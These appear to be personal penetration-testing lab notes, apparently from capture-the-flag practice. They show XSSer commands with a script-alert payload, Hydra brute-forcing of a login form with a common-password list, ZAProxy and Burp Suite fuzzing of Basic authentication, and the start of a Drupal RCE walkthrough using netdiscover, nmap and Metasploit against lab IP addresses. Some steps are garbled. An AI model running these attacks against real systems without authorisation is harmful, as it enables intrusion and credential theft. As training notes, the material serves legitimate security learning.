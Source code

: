     **XSS attack with XSSer**
    
    1. `xsser --url '<http://192.131.167.3/index.php?page=dns-lookup.php>' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'`
    2. `xsser --url '<http://192.131.167.3/index.php?page=dns-lookup.php>' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto`
    3. `xsser --url '<http://192.131.167.3/index.php?page=dns-lookup.php>' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"`
    
    **Attacking HTTP Login form**
    
    **Hydra**
    
    1. echo -e "admin\nbee\nuser1\nuser2" > users
    2. cat /root/Desktop/wordlists/100-common-passwords.txt > pws
    3. echo "bug" >> pws
    4. `hydra -L users -P pws 192.210.201.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!”`
    
    **ZAProxy**
    
    1. Capture the login post request
    2. fuzz
    3. Addpayloada
    4. Start fuzzer
    
    **Burp suite**
    
    1. capture the req [http://192.190.241.3/basic](http://192.190.241.3/basic)
    2. decode the basic encoded value - base64 decode
    3. Add basic encrypted value
    4. Choose sniper
    5. Load the common.txt payloads
    6. Add payload processing [1. Add prefix admin: 2. encode - base64 encode]
    7. Start attack
    8. Got 301 req, capture the encoded cred
    9. decrypt and get the flag
- Drupal
    
    ref: [https://www.spoofman.co.uk/courses/englishdump](https://www.spoofman.co.uk/courses/englishdump)
    
    [https://walk-throughs.medium.com/exploiting-drupal-via-metasploit-ctf-walkthrough-fcd5f5fa2fa](https://walk-throughs.medium.com/exploiting-drupal-via-metasploit-ctf-walkthrough-fcd5f5fa2fa)
    
    IP = **192.168.100.52**
    
    Web application Machine hosting **Drupal**
    
    Exploitation: RCE
    
    $ `ip a`
    
    $ `sudo netdiscover -r 192.168.100.0/24`
    
    $ `sudo nmap -sSVC -p- —open 192.168.100.4`
    
    $ `sudo msfconsole`
    